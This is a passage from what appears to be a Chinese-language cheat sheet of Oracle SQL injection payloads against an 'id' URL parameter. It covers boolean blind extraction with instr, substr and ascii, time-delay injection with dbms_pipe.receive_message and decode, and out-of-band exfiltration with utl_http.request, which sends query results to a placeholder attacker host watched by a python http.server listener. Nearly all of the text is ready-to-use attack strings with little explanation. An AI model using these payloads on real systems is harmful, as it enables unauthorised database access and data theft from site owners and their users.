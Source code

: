 ```sql
instr(str1,str2)若str1中存在相关字符，返回所在的位置，不存在返回0
可以进行字符串内容的对比,str1=str2>0相当于like，等于0相当于 not like 
and instr(substr(str,1,1),'1')=1
#payload
?id=1 and (select instr(substr((select user from dual),1,3),'E') from dual)=2  --   所在位置为2
#payload
?id=1 and (select instr(substr((select user from dual),1,4),'E') from dual)>0  --  含有E字符
```

```sql
#ascii+substr
and ascii(substr(str,1,1))>100
#判断各位的ASCII码
?id=1 and (select ascii(substr(str,1,1)) from user_tables where rownum=1)=num -- +
```

```sql
#时间延迟注入
dbms_pipe.receive_message('ICQ',3) from dual 时间延迟 表示从ICQ管道返回的数据需要等待3秒
a可以使用chr()
#payload:
?id=1 or 1= dbms_pipe.receive_message('a',10)  -- 
#配合decode()使用
?id=1 and (select decode(substr((select user from dual),1,1),'T',dbms_pipe.receive_message('icq',10),0) from dual)=1 -- +
```

<img src="websafe/image-20210719225602492.png" alt="image-20210719225602492" style="zoom:25%;" />



#### 外带注入

```sql
payload： /orcl.php?id=1 and exists (select count(*) from all_objects where object_name='UTL_HTTP') --+
检测外带函数是否可用

utl_http.request()函数

select utl_http.request('http://ip/?data='||(select owner from all_tables where rownum=1)) from dual;

?id=1 and (select utl_http.request('http://ip/?data='||(select owner from all_tables where rownum=1)) from dual)is not null

||run('exec','whoami','utf-8')

使用 python -m http.server 6666 设置端口监听
```